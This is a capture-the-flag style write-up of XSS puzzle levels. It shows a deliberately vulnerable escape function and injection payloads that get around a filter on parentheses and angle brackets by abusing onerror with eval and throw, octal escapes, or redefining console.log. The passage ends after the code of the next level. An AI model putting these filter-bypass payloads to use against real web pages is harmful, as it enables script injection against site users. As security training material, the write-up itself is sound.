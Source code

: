 ## No
### code
```javascript
// submitted by Stephen Leppik

function escape(s) {
s = s.replace(/[()`<]/g, ''); // no function calls

return '<script>\n' +
'var string = "' + s + '";\n' +
'console.log(string);\n' +
'</script>';
}
```
### solution
This level is also about execute JS function without parentheses and angle brackets. We can use onerror trick here:
```javascript
";onerror=eval;throw"=alert\x281\x29
```
moreover, we can use octal to shorten it:
```javascript
";onerror=eval;throw"=alert\501\51
```
As in this level, there is a `console.log(string)` after out input, so we may also redefine `console.log` to `alert`:
```javascript
"|1;console.log=alert//
```
### background info
`window.onerror` handles JS runtime error. Any runtime error including the one we triggered by `throw` will pass several arguments to the `window.onerror` function. 
- error message
- file name
- line number
- ...

The first argument will be error message, a string, in chrome it will be `"Uncaught ErrorType ErrorMessage"`. If we `throw` an error by ourself, like `throw 1`, the argument won't have ErrorType, so it will be `"Uncaught 1"`. In firefox it will be `"Uncaught exception: 1"`
So we may execute `alert` without parentheses like this:
```javascript
onerror=alert;
throw 1;
```
In this case, the parameter passed to `alert` will a string `"Uncaught 1"`. The challenge require alerting number 1, not string. So we may do things like
```javascript
onerror=eval;
throw "=alert\x281\x29"
```
So the parameter passed to `eval` will be string `"Uncaught=alert(1)"`, `alert(1)` will be executed and `undefined` will be assigned to `Uncaught` 
## K'Z'K
### code
```javascript
// submitted by Stephen Leppik
function escape(s) {
// remove vowels in honor of K'Z'K the Destroyer
s = s.replace(/[aeiouy]/gi, '');
return '<script>console.log("' + s + '");</script>';
}
```